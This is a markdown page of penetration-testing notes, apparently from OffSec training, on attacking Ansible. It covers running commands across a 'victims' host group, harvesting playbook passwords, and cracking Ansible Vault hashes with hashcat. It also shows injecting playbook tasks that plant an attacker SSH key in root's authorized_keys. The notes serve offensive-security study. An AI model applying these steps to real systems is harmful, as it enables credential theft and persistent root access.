 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: Ansible
---
```


# Ansible
#### Commands
_Ansible_ is an infrastructure configuration engine that enables IT personnel to dynamically and automatically configure IT infrastructure and computing resources through Python scripts.
Config in `/etc/ansible/hosts`.
The _ansibleadm_ user on the controller issues commands.
From the command machine:
&nbsp;
```shell
ansible victims -a "whoami"
```
&nbsp;
This will run `whoami` on all members of the Ansible group. To run it as root `ansible victims -a "whoami" --become` or specify the user `ansible victims -a "whoami" --become user2`.

#### Playbooks
Sets of tasks written in YAML to be scripted so that they can be run in a routine.
Check this files in _/opt/playbooks_ to see if there's any info leakage.
I.E.
&nbsp;
```YAML
---
- name: Write a file as offsec
  hosts: all
  gather_facts: true
  become: yes
  become_user: offsec <-------
  vars:
    ansible_become_pass: lab <---------
  tasks:
    - copy:
          content: "This is my offsec content"
          dest: "/home/offsec/written_by_ansible.txt"
          mode: 0644
          owner: offsec
          group: offsec
```
&nbsp;
Ansible has a new features called _Ansible Vault_ to securely store credentials for playbooks:
&nbsp;
```yaml
ansible_become_pass: !vault |
          $ANSIBLE_VAULT;1.1;AES256
          39363631613935326235383232616639613231303638653761666165336131313965663033313232
          3736626166356263323964366533656633313230323964300a323838373031393362316534343863
          36623435623638373636626237333163336263623737383532663763613534313134643730643532
          3132313130313534300a383762366333303666363165383962356335383662643765313832663238
          3036
```
&nbsp;
Copy the hash starting with "$ANSIBLE_VAULT......." and use _ansible2john_ to convert it in a crackable way to then:
&nbsp;
```shell
hashcat testhash.txt --force --hash-type=16900 /usr/share/wordlists/rockyou.txt
```
&nbsp;
to then decrypt the vault like:
&nbsp;
```shell
cat pw.txt | ansible-vault decrypt
```
&nbsp;
Also, if the playbook files used on the controller have world-writable permissions or if we can find a way to write to them (perhaps through an exploit), we can inject tasks that will then be run the next time the playbook is run.
I.E. to add to the yaml playbook:
&nbsp;
```yaml
- name: Create a directory if it does not exist
      file:
        path: /root/.ssh
        state: directory
        mode: '0700'
        owner: root
        group: root

    - name: Create authorized keys if it does not exist
      file:
        path: /root/.ssh/authorized_keys
        state: touch
        mode: '0600'
        owner: root
        group: root

    - name: Update keys
      lineinfile:
        path: /root/.ssh/authorized_keys
        line: "ssh-rsa AAAAB3NzaC1...Z86SOm..."
        insertbefore: EOF
```
&nbsp;
Also, some modules from Ansible might leak data in /var/log/syslog (I.E. shell module)
